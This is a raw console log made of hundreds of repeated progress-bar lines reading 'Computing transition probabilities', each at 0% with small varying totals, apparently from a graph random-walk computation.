Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/16 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/18 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/16 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/16 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/11 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/9 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/18 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/16 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/18 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/16 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/16 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/16 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/11 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/19 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/9 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/20 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/11 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/16 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/16 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/19 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/9 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/18 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/19 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

